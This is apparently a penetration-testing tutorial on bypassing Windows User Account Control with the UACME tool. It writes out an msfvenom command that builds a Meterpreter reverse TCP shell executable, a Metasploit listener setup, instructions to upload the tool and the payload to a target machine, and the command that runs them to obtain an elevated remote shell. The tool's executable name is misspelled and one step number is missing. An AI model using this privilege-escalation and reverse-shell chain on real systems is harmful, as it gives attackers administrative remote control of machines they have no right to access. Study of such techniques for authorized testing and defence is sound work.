

User Account Control (UAC) is a security feature in Microsoft Windows designed to prevent unauthorized changes to the operating system. It ensures that any changes requiring administrative privileges must be explicitly approved by the user. UAC helps protect against malware and unauthorized software installations.



## UACMe

[UACME](https://github.com/hfiref0x/UACME) is a tool designed to bypass User Account Control (UAC) prompts on Windows operating systems. It leverages vulnerabilities in the UAC mechanism to elevate privileges without requiring user interaction. UACME is primarily used for **post-exploitation** activities to escalate privileges during penetration testing or ethical hacking exercises.

#### Usage
1. **Select the key**

In the **Usage** section of the ReadMe file, there is a dropdown menu called **"keys"** where you can select the best option depending on your specific scenario. This allows you to tailor the tool's functionality to your needs, making it more adaptable for different environments or exploitation techniques.

2. **Create a payload file**

Using **msfvenom**, you can generate a reverse shell payload file. Here's a basic example to create a reverse TCP shell:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe > reverse_shell.exe
```

3. **Set a listener**
Set up a listener to wait for incoming connections from the reverse shell. In Metasploit, this can be done using the following command:

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <Your_IP>
set LPORT <Your_Port>
exploit
```

4. **Upload the akagai and reverse shell file**

You will need to upload both the Akagai executable and the reverse shell payload to the target machine. This can be done via various methods like web shell, SMB, or other file transfer techniques, depending on the access you've gained.


6. **Execute the exploit**

Once everything is set up, execute the exploit with the following command:

```
.\Akagai.exe <key> <full_path_to_rev_shell>
```